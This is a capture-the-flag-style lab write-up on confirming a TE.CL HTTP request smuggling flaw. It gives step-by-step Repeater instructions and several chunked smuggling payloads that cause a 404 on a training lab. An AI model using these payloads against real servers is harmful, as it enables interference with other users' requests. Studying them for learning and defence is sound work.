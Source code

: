 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

### step1

send homepage to repeater
change get request to post request
change HTTP /2 to HTTP/1.1
add SMUGGLED to body send request

![screenshot](./images/images_lab5/lab5_homepage_post_request.png)

### step2

add
Transfer-Encoding: chunked
8
SMUGGLED
0

![screenshot](./images/images_lab5/lab5_add_te_to_home_page.png)

![screenshot](./images/images_lab5/lab5_te_smuggled.png)

### step3

increase content-Length to 19 or 20
it will give internal server error

![screenshot](./images/images_lab5/lab5_internal_server_error.png)

### step4

test payload

```
5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

![screenshot](./images/images_lab5/lab5_testing_payload.png)

```
67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_payload_for_blog.png)

![screenshot](./images/images_lab5/lab5_post_in_response.png)

### step6

change get request to post request

```
68
POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_post_request.png)

### step7

test payload to solve lab

```
5d
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](./images/images_lab5/lab5_test_payload_404_get_request.png)

lab will solved
404
you can also send post request to solve lab

![screenshot](./images/images_lab5/lab5_testing_payload_404_post_request.png)

![screenshot](./images/images_lab5/lab5_congratulations.png)
